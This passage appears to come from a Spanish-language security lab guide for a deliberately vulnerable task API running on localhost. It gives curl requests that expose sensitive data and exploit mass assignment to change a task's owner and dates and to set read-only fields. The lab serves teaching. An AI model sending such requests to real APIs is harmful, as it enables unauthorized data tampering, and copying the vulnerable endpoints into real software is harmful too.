 #### Ver tareas con información sensible expuesta:
```bash
curl -X GET http://localhost:3000/api/tareas \
  -H "Authorization: Bearer $TOKEN" \
  | jq '.'
```

**⚠️ Datos Sensibles Expuestos:**
- IDs de usuario de todas las tareas
- Metadatos internos del sistema
- Información de debugging
- Estado de conexiones de BD

### Paso 9: 🚨 **VULNERABILIDAD 5 - Mass Assignment en Tareas**

#### Modificar propiedades sensibles de tarea:
```bash
curl -X PUT http://localhost:3000/api/tareas/1/actualizar-masivo \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{
    "titulo": "Tarea Hackeada",
    "usuarioId": 999,
    "fechaCreacion": "2020-01-01T00:00:00Z",
    "completada": true,
    "borrada": false,
    "comentarioCompletar": "Completada por hacker"
  }'
```

**⚠️ Resultado:** ¡Cambio de propietario y manipulación de fechas!

### Paso 10: 🚨 **VULNERABILIDAD 6 - Administrative Property Assignment**

#### Crear tarea con propiedades administrativas:
```bash
curl -X POST http://localhost:3000/api/tareas/crear-admin \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{
    "titulo": "Tarea Administrativa",
    "descripcion": "Tarea con propiedades especiales",
    "usuarioId": 1,
    "completada": true,
    "fechaCreacion": "2019-01-01T00:00:00Z",
    "fechaCompletada": "2019-01-02T00:00:00Z",
    "comentarioCompletar": "Pre-completada por admin"
  }'
```

**⚠️ Resultado:** Tarea creada con propiedades que normalmente son solo-lectura.

---